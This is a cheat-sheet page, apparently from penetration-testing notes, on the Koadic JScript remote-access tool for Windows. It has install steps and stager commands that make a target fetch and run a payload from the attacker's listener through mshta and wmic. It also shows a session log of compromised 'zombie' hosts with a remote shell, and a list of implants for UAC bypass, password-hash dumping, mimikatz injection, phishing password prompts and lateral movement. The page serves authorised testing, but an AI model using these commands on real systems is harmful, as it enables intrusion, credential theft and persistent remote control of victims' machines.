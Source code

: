 # Koadic C3 COM Command & Control - JScript RAT

> Windows post-exploitation rootkit similar to other penetration testing tools such as Meterpreter and Powershell Empire.

## Installation

```powershell
git clone https://github.com/zerosum0x0/koadic
git submodule init
git submodule update
pip2.7 install -r requirements.txt --user
python2.7 koadic
```

## Set a listener

```powershell
use stager/js/mshta
set LHOST 192.168.1.19
set SRVPORT 4444
run

[>] mshta http://192.168.1.19:4444/6DX7f
```

```powershell
use stager/js/wmic
set LHOST 192.168.1.19
set SRVPORT 4444
run

[>] wmic os get /FORMAT:"http://192.168.1.19:4444/lQGx5.xsl"
```

### Stagers

Stagers hook target zombies and allow you to use implants.

Module | Description
--------|------------
stager/js/mshta | serves payloads using MSHTA.exe HTML Applications
stager/js/regsvr | serves payloads using regsvr32.exe COM+ scriptlets
stager/js/wmic | serves payloads using WMIC XSL
stager/js/rundll32_js | serves payloads using rundll32.exe
stager/js/disk | serves payloads using files on disk

## List zombies and interact with them

```powershell
(koadic: sta/js/wmic)$ zombies

        ID   IP              STATUS  LAST SEEN
        ---  ---------       ------- ------------
        0    192.168.1.30    Alive   2018-10-04 17:07:12

(koadic: sta/js/wmic)$ zombies 0
        ID:                     0
        Status:                 Alive
        First Seen:             2018-10-04 17:05:00
        Last Seen:              2018-10-04 17:14:42
        IP:                     192.168.1.30
        User:                   DESKTOP-68URA9U\CrashWin
        [...]
        Elevated:               No
        [...]
```

Interact with `zombies zombie_id`, get a shell with `cmdshell zombie_id`.

```powershell
[koadic: ZOMBIE 0 (192.168.1.30) - C:\Users\CrashWin]> whoami
[*] Zombie 0: Job 1 (implant/manage/exec_cmd) created.
[+] Zombie 0: Job 1 (implant/manage/exec_cmd) completed.
Result for `cd C:\Users\CrashWin & whoami`:
desktop-68ura9u\crashwin
```

## Use an implant

Select an implant with `use module`, then fill the `info` with `set INFO value`, finally start the module with `run`.

```powershell
(koadic: sta/js/mshta)$ use implant/phish/password_box
(koadic: imp/phi/password_box)$ set ZOMBIE 1
(koadic: imp/phi/password_box)$ run
Input contents:
MyStrongPassword123!
```

### Implants

Implants start jobs on zombies.

Module | Description
--------|------------
implant/elevate/bypassuac_eventvwr | Uses enigma0x3's eventvwr.exe exploit to bypass UAC on Windows 7, 8, and 10.
implant/elevate/bypassuac_sdclt | Uses enigma0x3's sdclt.exe exploit to bypass UAC on Windows 10.
implant/fun/zombie | Maxes volume and opens The Cranberries YouTube in a hidden window.
implant/fun/voice | Plays a message over text-to-speech.
implant/gather/clipboard | Retrieves the current content of the user clipboard.
implant/gather/enum_domain_info | Retrieve information about the Windows domain.
implant/gather/hashdump_sam | Retrieves hashed passwords from the SAM hive.
implant/gather/hashdump_dc | Domain controller hashes from the NTDS.dit file.
implant/gather/user_hunter | Locate users logged on to domain computers (using Dynamic Wrapper X).
implant/inject/mimikatz_dynwrapx | Injects a reflective-loaded DLL to run powerkatz.dll (using Dynamic Wrapper X).
implant/inject/mimikatz_dotnet2js | Injects a reflective-loaded DLL to run powerkatz.dll (@tirannido DotNetToJS).
implant/inject/shellcode_excel | Runs arbitrary shellcode payload (if Excel is installed).
implant/manage/enable_rdesktop | Enables remote desktop on the target.
implant/manage/exec_cmd | Run an arbitrary command on the target, and optionally receive the output.
implant/phishing/password_box | Prompt a user to enter their password.
implant/pivot/stage_wmi | Hook a zombie on another machine using WMI.
implant/pivot/exec_psexec | Run a command on another machine using psexec from sysinternals.
implant/scan/tcp | Uses HTTP to scan open TCP ports on the target zombie LAN.
implant/utils/download_file | Downloads a file from the target zombie.
implant/utils/multi_module | Run a number of implants in succession.
implant/utils/upload_file | Uploads a file from the listening server to the target zombies.

## References

- [Pentestlab - koadic](https://pentestlab.blog/tag/koadic/)
- [zerosum0x0 Github - koadic](https://github.com/zerosum0x0/koadic)
